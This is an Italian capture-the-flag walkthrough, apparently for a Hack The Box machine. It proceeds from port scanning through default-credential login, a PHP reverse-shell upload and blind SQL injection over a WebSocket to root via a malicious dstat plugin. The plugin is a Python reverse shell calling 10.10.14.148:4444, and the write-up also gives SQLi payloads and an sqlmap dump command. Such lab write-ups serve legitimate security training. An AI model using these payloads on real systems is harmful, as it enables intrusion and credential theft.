 ### 1. Scan delle porte

![nmap](imgs/nmap.JPG)

- __Porta 22__ (SSH): OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- __Porta 80__ (HTTP): Web Server Nginx 1.18.0
- __Porta 9091__: Servizio HTTP sconosciuto

### 2. Enumerazione delle directory sul Web Server (Porta 80)

![gobuster](imgs/gobuster.JPG)

La ricerca ha identificato la directory _/tiny_ all'interno del Web Server, visitandola tramite browser notiamo che si tratta del servizio di file storage __Tiny File Manager__

![tfm](imgs/tfm.JPG)

ricercando un po' di informazioni su github riguardo questo servizio, ho scoperto che le credenziali impostate di default sono:
- __username__: admin
- __password__: admin@123

A questo punto possiamo loggare.

### 3. Upload della reverse shell

La directory condivisa tramite Tiny File Manager è proprio quella corrispondente all'applicazione web esposta sulla porta 80.
L'unica directory scrivibile è _uploads_ ed è proprio lì dentro che caricheremo la nostra [reverse shell PHP](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

Quindi mettiamoci in ascolto sulla porta 4444 della nostra macchina:

![nc](imgs/nc.JPG)

Adesso carichiamo la reverse shell:

![upload](imgs/upload.JPG)

Ed eseguiamola tramite http://soccer.htb/tiny/uploads/phprevshell.php

![rev](imgs/rev.JPG)

### 4. Ricerca di un sottodominio

Andando un po' in giro nel file system della macchina ho trovato i file di configurazione di Nginx in _/etc/nginx/sites-enabled_, ed in particolare ho scoperto un nuovo blocco server molto interessante che corrisponde al sottodominio __soc-player__:

![soc-player](imgs/soc-player.JPG)

quindi aggiungiamo il dominio _soc-player.soccer.htb_ in /etc/hosts della nostra macchina in modo tale da poter esplorare questa nuova applicazione tramite http://soc-player.soccer.htb.

### 5. Esplorazione sottodominio

Dopo aver registrato un nuovo account ed essere loggato, ci si presenta un form di input che ci chiede di inserire un Ticket ID.
E' interessante guardare il sorgente della pagina perchè è presente del codice javascript che tramite un web socket comunica con il servizio sconosciuto presente sulla porta 9091.

![ws](imgs/ws.JPG)

Analizzando il codice notiamo che viene fatta una richiesta al WebSocket e viene inviato il Ticket ID che noi inseriamo tramite input in formato JSON. A questo punto la risposta del Web Socket viene visualizzata nell'applicazione.
In particolare se il TicketID inserito esiste viene visualizzato _Ticket Exists_, altrimenti _Ticket doesn't Exists_

Probabilmente è presente una vulnerabilità a SQL Injection.
Questo Payload ritorna _Ticket Exists_:

Allora possiamo sfruttare la risposta come un "oracolo" che ci fa ricostruire pian piano la struttura del database.

### Exploit della SqlInjection 

Ho utilizzato lo script python di questa [guida](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) per poter testare ed exploitare la SQLI.

- Per estrarre il nome delle tabelle del database ho scritto una funzione python che le ricostruisce tramite questo payload:

```
1 OR (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE 'a%'-- a
```

Nel database è presente una singola tabella __accounts__

- Per estrarre le colonne della tabella ho scritto una funzione python che sfrutta questo payload.

```
1 OR (SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='accounts' LIMIT 0,1) LIKE 'a%' -- a
```

Le colonne sono: __email__, __username__,__password__

- Infine per ottenere username e password degli utenti registrati:

```
1 OR (SELECT username FROM accounts LIMIT 0,1) LIKE BINARY 'a%'-- a
```

```
1 OR (SELECT password FROM accounts LIMIT 0,1) LIKE BINARY 'a%'-- a
```

Questo lavoro può essere reso più semplice tramite sqlmap

```bash
sqlmap -u http://localhost:8081/?id=1 --dump-all --exclude-sysdbs
```

Alla fine otteniamo:

- __email__: player@player.htb
- __username__: player
- __password__: PlayerOftheMatch2022

che corrispondono anche alle credenziali di un account SSH.

### Privilege Escalation

```bash
find / -perm -u=s -type f 2> /dev/null
```

tra gli eseguibili con SUID attivo troviamo _/usr/local/bin/doas_

![suid](imgs/suid.JPG)

__doas__ è un binario tipo sudo che semplifica la gestione dei permessi ecc...
In particolare esiste un file di configurazione che consente di definire i permessi di sudo di ogni utente con una sintassi relativamente semplice.
Su questa macchina il file si trova in __/usr/local/etc/doas.conf__ e l'ho trovato tramite questo comando find

```bash
find / -name '*doas*' 2> /dev/null
```

Il contenuto di doas.conf è:
```permit nopass player as root cmd /usr/bin/dstat```

questo significa che possiamo eseguire _/usr/bin/dstat_ con i privilegi di root, ma come sfruttare questo?
Ci viene in aiuto il manuale di dstat.

Praticamente possiamo creare dei plugin scritti in python che possono essere eseguiti da dstat, e dobbiamo mettere questi plugin nella directory _/usr/local/share/dstat_ con il nome dstat_{nome plugin}.py, 
io lo chiamerò __dstat_exp.py__

il contenuto dell'exploit sarà questo:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.148',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);
```

a questo punto ci mettiamo in ascolto sulla porta 4444 ed eseguiamo il plugin con i privilegi di root:

```bash
doas /usr/bin/dstat --exp
```

E siamo ROOT

![root](imgs/root.JPG)
